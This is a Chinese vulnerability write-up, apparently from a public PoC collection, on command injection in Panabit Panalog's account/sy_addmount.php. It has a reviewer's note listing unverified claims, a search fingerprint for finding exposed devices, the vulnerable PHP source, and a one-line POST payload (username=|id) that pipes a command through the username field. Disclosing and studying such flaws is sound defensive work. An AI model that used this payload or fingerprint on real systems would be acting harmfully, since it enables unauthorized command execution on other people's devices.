

# Panabit Panalog sy_addmount.php 远程命令执行漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Panabit Panalog
- 本文讨论：account/sy_addmount.php username命令注入
- 版本、权限与配置前提：声称未授权，common.php鉴权逻辑未展示；版本未给
- 资料类型：源码/PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- addslashes不处理管道，源码可支持注入根因；但未看common.php不足独立证明未认证
- POST片段无HTTP头/响应文本，版本缺失

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- common.php与固件/权限待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

```
Panabit Panalog
```

## 网络测绘

```
body="Maintain/cloud_index.php"
```

## 漏洞复现

登录页面


存在漏洞的代码为 account/sy_addmount.php

```
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```
POST /account/sy_addmount.php

username=|id
```




---

> 来源：Threekiii/Awesome-POC
